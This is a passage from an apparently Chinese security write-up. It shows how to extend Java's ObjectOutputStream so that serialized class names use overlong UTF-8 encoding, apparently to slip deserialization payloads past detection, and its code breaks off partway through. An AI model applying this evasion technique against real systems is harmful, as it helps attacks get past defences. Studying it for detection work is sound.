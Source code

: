 [![](assets/1710900778-8b63ecfad96006206dc1bb9e6a86a296.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229102911-52875730-d6aa-1.png)

但是直接写这个类有点麻烦，毕竟序列化用的是 ObjectOutputStream

看看是谁调用了这个方法，往前一步，发现 writeClassDescriptor 方法调用 writeNonProxy 方法，而 writeClassDescriptor 正好是 ObjectOutputStream 的方法。

[![](assets/1710900778-bb7e890a8b7d044f68e42384a4614bc6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229102917-565879f2-d6aa-1.png)

接下来就简单了，我们继承 ObjectOutputStream，重写 writeClassDescriptor 方法，在 writeClassDescriptor 方法中实现 desc.writeNonProxy (this) 方法的逻辑和将类名 Overlong Encoding 的逻辑，具体操作的话就是直接将 desc.writeNonProxy (this) 方法的逻辑复制进去，缺少的属性可以通过反射获取，缺少的方法可以通过反射调用，之后在里面加上 Overlong Encoding 的逻辑就可以啦。

这里贴上我的代码

```plain
import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;
/**
 * 参考 p 神：https://mp.weixin.qq.com/s/fcuKNfLXiFxWrIYQPq7OCg
 * 参考 1ue：https://t.zsxq.com/17LkqCzk8
 * 实现：参考 OObjectOutputStream# protected void writeClassDescriptor(ObjectStreamClass desc) 方法
 */
public class CustomObjectOutputStream extends ObjectOutputStream {

    public CustomObjectOutputStream(OutputStream out) throws IOException {
        super(out);
    }

    private static HashMap<Character, int[]> map;
    private static Map<Character,int[]> bytesMap=new HashMap<>();

    static {
        map = new HashMap<>();
        map.put('.', new int[]{0xc0, 0xae});
        map.put(';', new int[]{0xc0, 0xbb});
        map.put('$', new int[]{0xc0, 0xa4});
        map.put('[', new int[]{0xc1, 0x9b});
        map.put(']', new int[]{0xc1, 0x9d});
```
